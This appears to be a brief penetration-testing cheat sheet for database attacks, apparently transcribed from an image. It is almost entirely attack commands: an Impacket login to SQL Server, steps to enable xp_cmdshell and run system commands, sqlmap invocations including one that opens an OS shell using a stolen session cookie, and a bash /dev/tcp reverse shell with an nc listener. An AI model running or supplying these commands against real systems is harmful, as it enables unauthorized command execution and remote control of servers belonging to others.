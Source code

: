 # SQL
## Connect to SQL Server using Impacket
  mssqlclient.py [username]/sql_svc@[IP] -windows-auth
## Check privs
  SELECT IS_SRVROLEMEMBER ('sysadmin')
## Enable xp_cmdshell
  EXEC sp_configure 'Show Advanced Options', 1;

  reconfigure;

  sp_configure;

  EXEC sp_configure 'xp_cmdshell', 1

  reconfigure;

  xp_cmdshell "whoami"

## sqlmap query (postgreSQL)
`sqlmap -u 'http://IP/directory.php?search=input' --cookie="PHPSESSID=cookieID"`

## If vulnerable to injection

`sqlmap -u 'http://IP/directory.php?search=input' --cookie="PHPSESSID=cookieID" --os-shell`

## Execute bash reverse shell

`bash -c 'bash -i >& /dev/tcp/IP/port 0>&1'`

`nc -lvnp port`


